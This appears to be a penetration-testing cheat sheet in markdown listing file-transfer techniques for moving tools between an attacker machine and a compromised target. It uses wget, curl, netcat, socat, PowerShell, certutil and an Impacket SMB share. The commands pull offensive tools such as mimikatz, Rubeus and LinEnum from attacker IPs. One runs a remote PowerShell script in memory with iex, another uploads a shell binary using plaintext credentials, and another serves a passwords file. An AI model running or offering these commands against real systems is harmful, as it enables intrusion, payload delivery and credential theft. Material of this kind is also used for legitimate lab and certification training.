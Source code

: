 # Transferring Files

## wget

```bash
python3 -m http.server 8000 # on kali machine
wget http://10.10.14.1:8000/linenum.sh # on target machine
```

## cURL

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
curl -T '/home/kali/Documents/pg/Hutch/shell.exe' 'http://192.168.136.122/' -u fmcsorley:CrabSharkJellyfish192
```

## SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh # with ssh user creds
```

## Base64

```bash
lojique@htb[/htb]$ base64 shell -w 0
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Netcat

```bash
# to receive a file
nc -nlvp 4444 > incoming.exe
# to transfer a file
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Socat

```bash
# to transfer
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
# to receive
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

## PowerShell

```powershell
# download a file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
iwr http://192.168.45.5/rubeus.exe -outfile rubeus.exe
# loads file in memory and runs it
iex (iwr http://192.168.119.217/Sherlock.ps1 -UseBasicParsing)
```

## Powercat

```
# listener
sudo nc -lnvp 443 > receiving_powercat.ps1
# send a file
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## Certutil

```
certutil.exe -urlcache -f http://<IP>/Sherlock.ps1 Sherlock,ps1
```

## Impacket SMB

```bash
# In directory with file
impacket-smbserver share . -smb2support

# From victim
\\10.10.10.10\share\mimikatz.exe 

copy \\10.10.10.10\share\mimikatz.exe 
```
